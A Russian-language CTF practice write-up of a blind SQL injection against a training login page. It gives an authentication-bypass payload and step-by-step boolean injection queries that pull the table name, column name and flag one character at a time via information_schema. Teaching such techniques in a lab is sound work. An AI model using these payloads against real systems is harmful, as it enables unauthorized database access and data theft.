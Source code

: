 # Практика 4 часть 3

Открываем веб-сайт. blindsql.myctf.ru

На этот раз фаззинг директорий нам ничего не принес. Пароль, полученный из исходников нам тоже не помог. Поэтому, попробуем выполнить sql инъекцию.

Попробуем инъекцию проверки пароля, введем в качестве логина — `admin`, а в качестве пароля `123' or 1=1 -- 123`. Данная атака позволяет выполнить свести логическую проверку пароля к проверке равенства `1=1`, которое всегда `True`, а следовательно выполнится. После чего остаток логики автора комментируется с помощью двойного тире. Выполнив атаку мы попадаем на страницу:

![image21](images/image21.jpg)

Видим что мы обошли авторизацию, но флаг не тут. Понимаем, что при истинном значении (`1=1`) мы обходим авторизацию, при ложном (`1=0`) нет. Используя эти знания пробуем достать данные из базы посимвольно.

![image22](images/image22.jpg)

Сначала имя таблицы:

```sql
login=admin' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='f' -- -&password=somenewpass
```

```sql
login=admin' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)='l' -- -&password=somenewpass
```

(Получили таблицу flag)

Потом имя столбца:

```sql
login=admin' and substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1)='f' -- -&password=somenewpass
```

```sql
login=admin' and substr((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,1)='l' -- -&password=somenewpass
```

(получили столбец flag)

И в конце достаем флаг:

```sql
login=admin' and substr((select flag from flag),1,1)='F' -- -&password=somenewpass
```

```sql
login=admin' and substr((select flag from flag),2,1)='l' -- -&password=somenewpass
```

Уязвимость в данном задании заключается в том, что мы можем делать любые запросы к базе данных, однако у нас нет возможности отобразить информацию на экране, поэтому мы используем некоторую логическую операцию: так например, если мы осуществляем успешный логин, с помощью конструкции `1=1`, а при `0=1` – логина нет, то нам ничего не мешает осуществить ту же самую операцию, сравнивая, например буквы — `f=f`, а раз мы можем сравнивать буквы, то можно попробовать сформировать одну из частей выражения запросом, а другую — подставлять руками. Таким образом, если, например, `1 буква имени таблицы = f`, то подставив в правую часть выражения `f`, мы успешно залогинимся. Если же мы не угадали, то можем перебирать правую часть выражения до тех пор, пока равенство не выполнится и не произойдет успешный логин. Вручную, конечно, это делать крайне трудозатратно, поэтому обычно такие процессы автоматизируют. Данная уязвимость, в зависимости от ограничений и прав пользователя из под которого происходит запрос, позволяет извлечь/записать любые данные из базы.
